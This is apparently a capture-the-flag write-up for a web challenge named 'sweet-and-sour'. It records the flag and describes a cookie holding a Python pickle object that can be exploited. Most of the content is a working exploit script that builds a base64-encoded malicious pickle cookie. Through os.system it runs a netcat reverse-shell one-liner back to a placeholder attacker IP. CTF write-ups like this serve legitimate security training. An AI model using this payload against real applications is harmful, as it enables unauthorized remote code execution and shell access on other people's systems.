 # sweet-and-sour:Web

Flag Proof:`CTF{ccc1ccef217ed19c492bdada049ad2b0fbf1adcb72a92f13ab153aae068f797f}`

## Summary

- Going to the page , we get redirected to `dashboard` , and this redirection sets the cookie to what turned out to be a pickle serialized object which is known to be vulnerable to `RCE`.
- Used this script to create my cookie which would give me a reverse shell and get the flag

```python
import pickle
import sys
import base64

COMMAND = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 9000 >/tmp/f"

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print (base64.b64encode(pickle.dumps(PickleRce())))
```

![Untitled](sweet-and-sour%20Web%205165b0809d26452ab46e04614db40768/Untitled.png)